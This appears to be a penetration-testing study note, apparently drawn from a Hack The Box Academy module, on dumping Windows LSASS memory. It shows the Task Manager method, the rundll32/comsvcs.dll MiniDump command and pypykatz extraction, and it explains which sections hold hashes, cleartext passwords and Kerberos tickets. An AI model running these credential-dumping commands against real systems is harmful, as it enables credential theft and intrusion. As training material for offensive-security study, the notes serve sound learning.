 ```yaml
---
description: Local Security Authority Subsystem Service
---
```


# Attacking LSASS

### Dumping LSASS Process Memory

**Task Manager Method**

![Task Manager Memory Dump](https://academy.hackthebox.com/storage/modules/147/taskmanagerdump.png)

The file will be saved in the following location.

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

**Rundll32.exe & Comsvcs.dll Method**

```powershell-session
PS C:\Windows\system32> Get-Process lsass
```

**Creating lsass.dmp using PowerShell**

```powershell-session
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

**Using Pypykatz to Extract Credentials**

```shell-session
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

The output will have the following sections that we need to focus

<table><thead><tr><th width="125">Sections</th><th>Descriptions</th></tr></thead><tbody><tr><td><a href="https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package">MSV</a></td><td><a href="https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package">MSV</a> is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database. Pypykatz extracted the <code>SID</code>, <code>Username</code>, <code>Domain</code>, and even the <code>NT</code> &#x26; <code>SHA1</code> password</td></tr><tr><td>WDIGEST</td><td><code>WDIGEST</code> is an older authentication protocol enabled by default in <code>Windows XP</code> - <code>Windows 8</code> and <code>Windows Server 2003</code> - <code>Windows Server 2012</code>. LSASS caches credentials used by WDIGEST in clear-text.</td></tr><tr><td><a href="https://web.mit.edu/kerberos/#what_is">Kerberos</a></td><td>Network authentication protocol used by Active Directory in Windows Domain environments. LSASS <code>caches passwords</code>, <code>ekeys</code>, <code>tickets</code>, and <code>pins</code> associated with Kerberos</td></tr><tr><td>DPAPI</td><td>set of APIs in Windows operating systems used to encrypt and decrypt DPAPI data blobs on a per-user basis for Windows OS features and various third-party applications</td></tr></tbody></table>



